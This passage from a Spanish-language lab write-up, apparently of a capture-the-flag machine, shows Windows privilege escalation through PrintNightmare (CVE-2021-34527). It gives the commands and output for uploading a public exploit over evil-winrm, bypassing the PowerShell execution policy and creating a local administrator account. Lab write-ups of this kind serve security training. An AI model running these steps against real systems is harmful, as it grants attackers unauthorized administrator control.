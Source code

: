 ```
TCP        0.0.0.0               49413         0.0.0.0               0               Listening         568             lsass
TCP        10.129.190.165        139           0.0.0.0               0               Listening         4               System
```

Le he pasado estos puertos a `PentestGPT` y resulta que el servicio `spoolsv` es el de una impresora que puede tener la vulnerabilidad `PrintNightmare (CVE-2021-34527)` . Para explotarla nos vamos a descargar este `exploit` [https://github.com/JohnHammond/CVE-2021-34527](https://github.com/JohnHammond/CVE-2021-34527). Lo primero es depositar el binario descargado en la misma carpeta desde la que nos hemos conectado con evil-winrm y subirlo a la máquina víctima

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> upload CVE-2021-34527.ps1
                                        
Info: Uploading /home/justice-reaper/Desktop/Driver/content/CVE-2021-34527.ps1 to C:\Windows\Temp\Priivesc\CVE-2021-34527.ps1
                                        
Data: 238084 bytes of 238084 bytes copied
                                        
Info: Upload successful!
```

Al intentar `ejecutar` el `exploit` nos da este error

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Import-Module .\cve-2021-34527.ps1
File C:\windows\temp\Priivesc\cve-2021-34527.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\cve-2021-34527.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

Para `cambiar` la `política de ejecución` para la sesión actual lo podemos hacer ejecutando

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

`Ejecutamos` el `exploit` y `creamos` un usuario `Administrator`

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Import-Module .\cve-2021-34527.ps1
*Evil-WinRM* PS C:\windows\temp\Priivesc> Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user john as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
